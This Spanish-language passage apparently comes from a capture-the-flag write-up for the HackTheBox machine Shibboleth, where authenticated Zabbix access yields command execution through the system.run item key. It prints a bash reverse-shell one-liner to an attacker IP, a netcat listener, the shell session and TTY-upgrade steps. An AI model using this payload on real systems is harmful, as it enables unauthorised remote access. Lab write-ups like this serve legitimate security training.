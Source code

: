 ![Panel]({{ 'assets/img/writeups/Shibboleth/panel.png' | relative_url }}){: .center-image }

Si recuerdas vimos haciendo `searchsploit zabbix` que había un exploit de RCE si estabamos autenticados. Podemos usarlo o también hacerlo manualmente, es fácil, sobretodo si lo tienes en video(video de s4vitar en youtube para esta misma máquina).

¿Cómo se hace?. Vamos a Configuration--> Hosts--> Items(en pequeñito y en azul, parte media)--> Create item --> En Key elegir la de system.run[command,<mode>].
En mode señala que hay que poner nowait. En commando una reverse shell estaría bien, así que puede quedar algo así:  
system.run[bash -c "bash -i >& /dev/tcp/10.10.14.14/443 0>&1",nowait]

Antes de seguir nos ponemos en escucha por el puerto 443.
```
❯ nc -nlvp 443
listening on [any] 443 ...
```
Ahora añadiendo la linea anterior le damos abajo al boton de "Test" y luego "Get value and test". Obteniendo la reverse shell:
```
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.124] 40612
bash: cannot set terminal process group (935): Inappropriate ioctl for device
bash: no job control in this shell
zabbix@shibboleth:/$ 
```
Toca realizar el tratamiento de la consola.
```
zabbix@shibboleth:/$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
zabbix@shibboleth:/$ ^Z
zsh: suspended  nc -nlvp 443
``` 
Saldrá a mi terminal local, y:
```
> stty raw -echo; fg
        reset xterm
```
Vuelve a la terminal remota:
``` 
zabbix@shibboleth:/$ export TERM=xterm
zabbix@shibboleth:/$ export SHELL=bash
zabbix@shibboleth:/$ stty rows 38 columns 186
```
Y leemos la flag del usuario:
```
zabbix@shibboleth:/$ cat user.txt
zabbix@shibboleth:/$ c45880f9017d63709580*******
```

## Escalada de privilegios 
